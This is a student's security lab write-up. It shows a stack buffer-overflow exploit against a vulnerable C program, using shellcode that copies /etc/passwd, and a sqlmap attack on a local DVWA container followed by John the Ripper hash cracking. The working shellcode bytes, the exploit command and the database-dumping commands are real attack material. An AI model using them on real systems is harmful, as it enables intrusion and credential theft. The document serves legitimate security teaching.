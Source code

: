 # Lab #1,22110058, Luong Minh Nhat, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**:
## 1. Complie asm program and C program to execuatable

Complie asm program
``` 
    nasm -g -f elf shell.asm 
    ld -m elf_i386 -o shell shell.o
```

![](./imgs/task1_1.png)

Complie C program
``` 
    gcc -g vulnerable.c -o vulnerable.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```
![](./imgs/task1_2.png)
## 2. Prepairing for attacking
Get shell code from complied asm program
```
    for i in $(objdump -d shell |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
![](./imgs/task1_3.png) 

<br>

The value that we got
```
\x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80
```
78 bytes long

Use gdb to find redundant_code function address:
``` 
    gdb vulnerable -q
    disas redundant_code
```
![](./imgs/task1_4.png)

## 3. Stack frame
stack frame for main fucntion <br>
![](./imgs/task1_5.png)
## 4. Attack
```
	./vulnerable.out $(python -c "print('a'*20+'\x4c\xd7\xff\xff'+'\x90'*100 +'\x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80' )")
```

**Conclusion**: in main fucntion use unsafe function `strcpy`, that lead to attack buffer overflow for attacker inject code, to prevent it, we can use safe function like `strncpy`

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 


Set up
```
docker pull vulnerables/web-dvwa
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

Open your browser and navigate to http://localhost. You should see the DVWA login page. <br>
![](./imgs/task2_1.png) <br>

Install Sqlmap <br>
```
	sudo apt install sqlmap
```


Login with the default credentials: <br>

Username: admin <br>
Password: password <br>
![](./imgs/task2_2.png)

**Question 1**: Use sqlmap to get information about all available databases <br>
**Answer 1**:
```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit" --dbs

```
![](./imgs/task2_3.png) <br>
**Question 2**: Use sqlmap to get tables, users information <br>
**Answer 2**: <br>
get tables <br>
```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" -D dvwa --tables
```
![](./imgs/task2_4.png)
get users <br>
```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" -D dvwa --dump

```
![](./imgs/task2_5.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit <br>
**Answer 3**: <br>
```
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

```
